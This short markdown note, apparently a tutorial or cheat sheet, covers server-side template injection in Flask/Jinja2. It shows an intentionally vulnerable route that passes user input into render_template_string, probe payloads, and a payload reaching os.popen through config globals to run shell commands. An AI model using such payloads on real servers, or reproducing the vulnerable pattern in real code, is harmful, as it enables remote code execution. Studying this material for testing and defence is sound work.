

## Server Side Template Injection (SSTI)
 
 ```
from flask import Flask, render_template_string

app = Flask(__name__)


@app.route("/test/<user>")
def index(user=None):
    html = "<body>Hi "+user+"</body>"
    return render_template_string(html)


app.run() 
 ```
 
 
when testing for Server Side Template Injection (SSTI) in a jinja 2 application i usualy try the following payloads :
- {{7*7}} 
> 49
- {{7*'7'}}
> 7777777
 
 
 To fully understand how to exploit this vuln you first need to understand Method Resolution Order (MRO). MRO is the order in which python ooks for a method in a hierarchy of classes and you can use the MRO function to list these classes.
 
 - ` {{config.__class__.__init__.__globals__['os'].popen('whoami').read()}} `
 
 
